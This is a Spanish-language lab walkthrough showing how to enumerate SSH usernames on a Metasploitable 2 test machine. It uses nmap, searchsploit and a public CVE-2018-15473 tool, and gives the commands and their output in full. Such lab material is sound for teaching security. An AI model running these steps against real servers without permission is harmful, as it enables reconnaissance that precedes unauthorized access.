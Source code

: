 # Ataque de Enumeración de Usuarios en un servidor SSH

Ejecutamos Nmap para hacer un reconocimiento del servidor SSH presente en Metasploitable 2.  
`nmap -p 22 192.168.100.93 -A`  

Obtenemos el siguiente resultado:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 19:27 EDT
Nmap scan report for 192.168.100.93
Host is up (0.00063s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```
Seguidamente buscamos información adicional con **Searchsploit**.  

Ejecutamos `searchsploit -w ssh 4.7`:  

```
------------------------------------------------ --------------------------------------------
 Exploit Title                                  |  URL
------------------------------------------------ --------------------------------------------
Fortinet FortiGate 4.x < 5.0.7 - SSH Backdoor A | https://www.exploit-db.com/exploits/43386
OpenSSH 2.3 < 7.7 - Username Enumeration        | https://www.exploit-db.com/exploits/45233
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)  | https://www.exploit-db.com/exploits/45210
OpenSSH < 6.6 SFTP (x64) - Command Execution    | https://www.exploit-db.com/exploits/45000
OpenSSH < 6.6 SFTP - Command Execution          | https://www.exploit-db.com/exploits/45001
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disable | https://www.exploit-db.com/exploits/40962
OpenSSH < 7.4 - agent Protocol Arbitrary Librar | https://www.exploit-db.com/exploits/40963
OpenSSH < 7.7 - User Enumeration (2)            | https://www.exploit-db.com/exploits/45939
------------------------------------------------ --------------------------------------------
```

Clonamos el exploit 45233 y probamos si nos funciona:

```
┌──(kali㉿kali)-[~/ssh-audit]
└─$ searchsploit -m 45233   
  Exploit: OpenSSH 2.3 < 7.7 - Username Enumeration
      URL: https://www.exploit-db.com/exploits/45233
     Path: /usr/share/exploitdb/exploits/linux/remote/45233.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/ssh-audit/45233.py


                                                                                             
┌──(kali㉿kali)-[~/ssh-audit]
└─$ chmod +x 45233.py 
                                                                                             
┌──(kali㉿kali)-[~/ssh-audit]
└─$ ./45233.py                   
./45233.py: 22: import: not found
./45233.py: 23: import: not found
./45233.py: 24: import: not found
./45233.py: 25: import: not found
./45233.py: 26: import: not found
./45233.py: 27: import: not found
./45233.py: 28: import: not found
./45233.py: 30: old_parse_service_accept: not found
./45233.py: 33: Syntax error: "(" unexpected
```

Al parecer este exploit no funciona con la versión de Python instalada. Podemos buscar otros exploits relacionados con este CVE en la internet.  
Ejemplo: https://github.com/epi052/cve-2018-15473. Lo descargamos y configuramos:

```
git clone https://gitlab.com/epi052/cve-2018-15473.git
cd cve-2018-15473
pip install -r requirements.txt 
```

Luego podemos utilizar esta herramienta para enumerar usuarios en el servidor Metasploitable:

```
┌──(kali㉿kali)-[~/cve-2018-15473]
└─$ ./ssh-username-enum.py 192.168.100.93 -u msfadmin2
[+] OpenSSH version 4.7 found
                                                                                             
┌──(kali㉿kali)-[~/cve-2018-15473]
└─$ ./ssh-username-enum.py 192.168.100.93 -u msfadmin 
[+] OpenSSH version 4.7 found
[+] msfadmin found!
```


